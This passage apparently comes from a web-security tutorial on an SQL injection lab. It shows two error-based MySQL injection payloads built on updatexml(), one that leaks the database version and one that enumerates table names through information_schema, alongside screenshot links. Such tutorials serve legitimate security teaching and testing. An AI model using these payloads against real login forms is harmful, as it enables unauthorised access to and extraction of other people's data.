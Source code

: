 **Query to read exfiltrate `version()`:** `updatexml(null,concat(0x0a,version()),null)-- -`

![Login_version](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Login_version.png)

**Query to read exfiltrate `tables`:** `updatexml(null,concat(0x0a,(select table_name from information_schema.tables where table_schema=database() limit 0,1 )),null)-- -`

> Note: update `limit 0,1` to `limit 1,1`, etc. to get all tables.



![Login_Table_1](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Login_Table_1.png)

![Login_Table_2](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Lab/Login_Table_2.png)
